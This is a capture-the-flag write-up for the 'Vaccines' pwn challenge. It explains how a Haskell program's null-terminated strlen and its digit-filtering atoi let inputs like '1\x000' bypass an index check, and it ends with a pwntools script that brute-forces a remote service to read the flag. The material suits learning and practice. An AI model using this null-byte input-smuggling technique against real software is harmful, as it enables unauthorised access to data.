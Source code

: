 ```yaml
---
title : "Vaccines [Pwn]"
categories: BOH2023
---
```


Pwning faulty implementation of `strlen` and `atoi` functions in Haskell.

[src](/files/boh2023/vaccines/src){: .btn .btn--info}
[src.hs](/files/boh2023/vaccines/src.hs){: .btn .btn--info}

# Going through the program

If you don't know how to read Haskell, don't worry, I don't too...

The whole code was quite readable, and we quickly see where the flag is at.

Line 47:
```rust
    let vaccines = [Vaccine x "some random Vaccine" "03/04/2020" | x <- [0..num]] ++ [Vaccine (num+1) flag "03/04/2020"]
```

`num` is a random value from 10 to 100 (exclusive), and our flag is at index `num`.

Looking at the code, this is just another program with menu functions

1. View vaccine: Give Vaccine ID (index), and it will print out the vacine ID, description, date.
2. Edit vaccine: Give Vaccine ID (index), and you can input a new description and date for that vaccine.
3. Exit: ... no explanations needed.

So we just read the vaccine at that index? **WRONG**

```
What do you want to do?
1. View Vaccine
2. Edit Vaccine
3. Exit
1
Enter Vaccine ID:
10
Invalid Vaccine ID
```

There is an error upon inputting any index >= 10. We see the culprit of this annoying error:

```rust
        putStrLn "Enter Vaccine ID: "
        input <- getLine
        if (strlen input == 1 && input !! 0 /= '0') then do
            let id = atoi input
            if (id >= 0 && id < Prelude.length vaccines) then do
                printVaccine $ vaccines !! id
                loop
```

There are two conditions that our input must satisfy:

1. `strlen input == 1`: The length of the string is 1
2. `input !! 0 /= '0'`: The index 0 character is not '0'

One last thing before we go to the solution: our input is passed into `atoi` to convert it from string to integer, before using it as the index to `vaccines`.

# Solution

We see that condition 2 is already satisfied by our inputs, so we look at condition 1.

```rust
strlen :: String -> Int
strlen input = Prelude.length $ Prelude.takeWhile (/= '\0') input
```

We see that `strlen` takes a `String` and returns an `Int`, and it just takes and counts the characters until a `\0` (null byte) is met, which is what we're used to with C strings. But wait...

{% include image.html url="/assets/images/boh2023/vaccines_chatgpt.png" description="bamboozled" %}

Which means that, an input of `1\0XXXX...` will be regarded as length 1 even though it really isn't.

```rust
atoi :: String -> Int
atoi input = do
    let input' = Prelude.filter (\x -> x >= '0' && x <= '9') input
    Prelude.read input' :: Int
```

Looking at `atoi`, we see that it just filters out for characters that are `0-9`. So, if we input `1\00`, it will be regarded as having length 1, and has value of integer 10. Similarly, `4\09` is 49 etc.

So, we just write a script to run through the index 10 to 100, and stop when we get the flag.

# Final Script
```python
from pwn import *

DEBUG = False

conn = process("./src") if DEBUG else remote("54.158.139.58", 1237)

def select(ind):
    conn.recvuntil(b"Exit")
    conn.recvline()
    if type(ind) == str:
        ind = ind.encode()
    conn.sendline(ind)

def chooseID(ind):
    conn.recvuntil(b"ID:")
    conn.recvline()
    if type(ind) == str:
        ind = ind.encode()
    conn.sendline(ind)

for i in range(10, 100):
    select("1")

    tens = str(i)[0].encode()
    ones = str(i)[1].encode()
    chooseID(tens + b"\x00" + ones)

    if b"Invalid" in conn.recvline():
        break

    conn.recvuntil(b": ")
    print(conn.recvline(keepends=False))
```
